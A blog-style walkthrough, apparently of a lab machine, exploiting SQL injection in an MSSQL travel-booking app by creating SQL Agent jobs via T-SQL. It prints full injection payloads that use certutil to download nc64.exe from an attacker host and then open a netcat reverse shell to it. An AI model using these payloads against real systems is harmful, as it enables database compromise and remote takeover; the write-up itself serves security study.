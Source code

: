 ```yaml
---
title: Manual SQLi On MSSQL [ Creating Jobs With Mssql ]
author: r0b0tG4nG
date: 2021-12-17 13:18:00 +0000
categories: [Blogging, Exploiting, Web Applications]
tags: [writeups, sqli, sql injection, burpsuite, shell, xp_cmdshell]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/146534410-1abcfb45-ad47-4adf-b54d-637ea41aedd2.png)

**> Information Gathering**<br>

SQL injection aka `SQLi` is a `web security vulnerability` that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.  More information on <a href="https://portswigger.net/web-security/sql-injection"> PortSwigger</a>
 
On port 80, we can see an amazing web application that's meant for booking trips. It's safe to assume that this is a travel agent website where one can book a destination to a desired location. The target website appears to have static webpages except the `book-trip.php` page. On this page we are presented with a login form which has 3 fields. `1. Destination`, `2. Adults` & `3. Children`.<br>
![image](https://user-images.githubusercontent.com/67085453/146534457-64377610-eb21-4c71-9928-693096c1a99f.png)<br>

In `SQLi`, there are few characters that are capable of triggering an error in a database. These characters are `*, ', " & a few others`. In this engagement, we will use a single `'` quote to test all fields. It's always best to test one field at a time, so let's put single quote `'` in the `destination field` and capture the request in burpsuite for further testing.<br>
![image](https://user-images.githubusercontent.com/67085453/146534508-19900b99-e551-4608-a2ee-beee590510dd.png)<br>

Pushing the request to `burpsuite forwarder`, and sending the request again, we were able to trigger a `sql error`. From the response in burpsuite, the error displayed is `Message: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string ''.` & `Message: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near ''.`<br>
![image](https://user-images.githubusercontent.com/67085453/146534664-ce769aa7-7712-4149-a2bc-cd167c2f1f4c.png)
<br>

The `destination field` is vulnerable to sql injection. To further exploit this vulnerability, we need to find the number of columns on the target. In `SQL`, the query `Order by` is used to sort the `result-set` in `ascending or descending order.`. To accomplish this, we will modify the data in our request `destination='+order+by+1+--&adults=1&children=1`. Note: we will keep increasing the values till we find the right columns on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/146534570-aea70b24-8a91-45fe-ac13-d07d9b9cc688.png)<br>

The target database has `5 columns` which can be confirmed from the image above. The reason for performing an SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, we need to find one or more columns in the original query results whose data type is, or is compatible with, string data. To test this, we will modify our data `destination='+UNION+SELECT+'a',2,3,4,5+--&adults=1&children=1`.  We will keep testing until the `alphabets` we submitted appears in the webapp response.<br>
![image](query)<br>

We found the relevant columns that are suitable for retrieving string data. We have all that we need now the next step is to start extracting information from the database. For starters, let's start with the version of SQL server running on the target. We can achieve this using `destination='+UNION+SELECT+1,'a',(SELECT+@@version),3,4+--&adults=1&children=1`<br>
![image](version)<br>

We can further enumerate the target database to retrieve information but it's unfortunate i won't dive deep into that. For more information on how to enumerate the database manually, you can check at <a href="https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/">perspectiverisk</a>. For now, let's focus on to enable `xp_cmdshell` on the target.<br>

After trying for some time to enable `xp_cmdshell` manually, i hit a dead-end. I tried all that i know and also followed the steps on both <a href="https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/">mssqltips</a> & <a href="https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e">medium.com</a> as well as few others, i failed. I decided to use the automatic method since i know the injection point, it’s easier to do it with `sqlmap`.<br>
![image](sqlmap)<br>

Using `sqlmap` didn't do any good. I tried bypassing this feature with some few `sqlmap arguments` but i still failed. Looking at the screenshot above, sqlmap presented us with this error<br> 
```shell
[02:00:34] [WARNING] xp_cmdshell creation failed, probably because sp_OACreate is disabled
[02:00:34] [CRITICAL] unable to proceed without xp_cmdshell
```
<br>

**> Creating MSSQL Jobs Through SQLi**<br>

The question is "how do we do this?? is it even possible??"??  The answer is *YES* it is possible have you heard about `T-SQL`??
`T-SQL (Transact-SQL)` is a set of programming extensions from `Sybase and Microsoft` that add several features to the Structured Query Language (SQL), including transaction control, exception and error handling, row processing and declared variables.

`T-SQL identifiers`, meanwhile, are used in all databases, servers, and database objects in SQL Server. These include the following `tables, constraints, stored procedures, views, columns and data types`. T-SQL identifiers must each have a `unique name, are assigned when an object is created and are used to identify an object`.<br>

With this information, i looked deeper into assigning `T-SQL identifiers` on MSSQL which led to <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-add-jobserver-transact-sql?view=sql-server-ver15">microsoft T-SQL</a> documentation.<br>

To successfully create a `job` in MSSQL using `T-SQL`, we need two important arguments. These arguments are `[ @job_id = ] job_id` or `[ @job_name = ] 'job_name'` & `[ @server_name = ] 'server`. <br>

> Note: Either job_id or job_name must be specified, but both cannot be specified.

<br>

We have all the information we need but another issue pops up. What's the issue?? how do i create this without any error?? i googled for samples of `T-SQL Jobs` and i came across this website <a href="https://www.mssqltips.com/sqlservertip/3052/simple-way-to-create-a-sql-server-job-using-tsql/">mssqltips</a> which clearly defines a fully functional `T-SQL job`. From the sample on this website, i crafted a `T-SQL query` to test if i can ping my ipaddress  .<br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'c:\windows\system32\cmd.exe /c ping -n 10 10.10.15.25', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>

To identify ping requests, we have to start `tcpdump` on my attacker machine to filter `icmp` on ipaddress of our network interface. We can achieve this by typing `sudo tcpdump -i tun0 icmp`  in this case, i am listening on `tun0` interface. Send the `testping T-SQL` request to the target from burpsuite and i received a ping on my machine.<br>
![image](ping request)<br>


If we are able to execute a ping request, then we are two steps away from gaining remote code execution on the target. There are many ways to do this but i will stick to the basic 3:
> 1. Create an msfvenom payload, transfer to the target and execute it.<br>
> 2. Transfer netcat windows binary to the target and execute that for a rev shell<br>
> 3. Use a powershell one-liner to transfer and execute your nishang-tcp-shell script<br>

I will use the second method. First grab netcat windows binary from <a href="https://github.com/int0x33/nc.exe/">int0x33 GitHub repo</a>, then craft a new `T-SQL job` query to transfer the file from your attacking machine to the target machine.<br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'c:\\windows\\system32\\cmd.exe /c certutil -urlcache -f http://10.10.15.25/nc64.exe C:\\Windows\\temp\\nc64.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>

Start python server on the attacking machine using `python -m SimpleHTTPServer port number` or the py3 method `python3 -m http.server port number` then put this `T-SQL` query in burpsuite and forward the request once again. It worked i got a hit from the target machine. `Nc64.exe` is transferred to `C:\\Windows\\temp\\` directory.<br>
![image](nc64.exe transfer)<br>

All we need to do now is to parse our `ipaddress` and `port number` to `nc64.exe` in order to gain a reverse connection to the target machine. As usual we have to modify our `T-SQL` query to perform this action. Once done, modify burpsuite data and send request again. <br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'C:\\Windows\\temp\\nc64.exe 10.10.15.25 445 -e cmd.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>


Whoop Whoop we got a reverse connection to the target machine. I hope you enjoyed the ride and also discovered something new. Kindly subscribe to my <a href="https://www.youtube.com/channel/UCSY-pfwuYspZFlRsO7vBfIQ"> YouTube channel</a> for more contents<br>
![image](revserse shell).
